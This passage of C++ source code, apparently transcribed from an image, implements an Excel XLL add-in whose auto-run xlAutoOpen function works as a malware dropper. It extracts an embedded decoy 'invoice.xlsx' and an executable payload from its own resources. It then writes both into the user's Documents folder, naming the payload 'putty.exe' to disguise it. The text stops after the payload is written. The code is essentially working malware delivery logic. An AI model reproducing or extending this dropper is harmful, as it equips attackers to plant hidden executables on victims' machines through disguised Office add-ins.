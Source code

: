 ```

    return hmodule;
}


extern "C" __declspec(dllexport) short __stdcall xlAutoOpen()
{

    HKEY key;
    RegOpenKeyA(HKEY_CURRENT_USER, "Software\\Microsoft\\Office\\16.0\\Word\\Options", &key);

    DWORD regType = REG_SZ;
    char  ExcelPath[MAX_PATH];
    DWORD ExcelPathsize = MAX_PATH;

    RegQueryValueExA(key, "PROGRAMDIR", NULL, &regType, (LPBYTE)ExcelPath, &ExcelPathsize);

    strcat_s(ExcelPath, "excel.exe");


    HMODULE hmodule = retriveHandle();
    HRSRC hRes = FindResource(hmodule, MAKEINTRESOURCE(EXCEL_INVOICE), MAKEINTRESOURCE(EXCEL_FILE));


    HGLOBAL hData = LoadResource(hmodule, hRes);

    int   excelSize = (SizeofResource(hmodule, hRes));
    char* Excel   = (char*)LockResource(hData);

    HRSRC phRes = FindResource(hmodule, MAKEINTRESOURCE(PAYLOAD_FILE), MAKEINTRESOURCE(EXE_FILE));
    HGLOBAL phData = LoadResource(hmodule, phRes);

     int PayloadSize = (SizeofResource(hmodule, phRes));
     char* Payload = (char*)LockResource(phData);

    char excel_file_path[MAX_PATH];
    const char* excel_file_name = "\\invoice.xlsx";
    char my_documents[MAX_PATH];
    HRESULT result = SHGetFolderPathA(NULL, CSIDL_PERSONAL, NULL, SHGFP_TYPE_CURRENT, my_documents);

    strcpy_s(excel_file_path, my_documents);
    strcat_s(excel_file_path, excel_file_name);


    char payload_file_path[MAX_PATH];
    const char* payload_file_name = "\\putty.exe";

    strcpy_s(payload_file_path, my_documents);
    strcat_s(payload_file_path, payload_file_name);

    HANDLE hXllFile = CreateFileA(excel_file_path, GENERIC_WRITE, NULL, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

    WriteFile(hXllFile, Excel, excelSize, 0, 0);
    CloseHandle(hXllFile);


    HANDLE hPayloadFile = CreateFileA(payload_file_path, GENERIC_WRITE, NULL, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

    WriteFile(hPayloadFile, Payload, PayloadSize, 0, 0);
```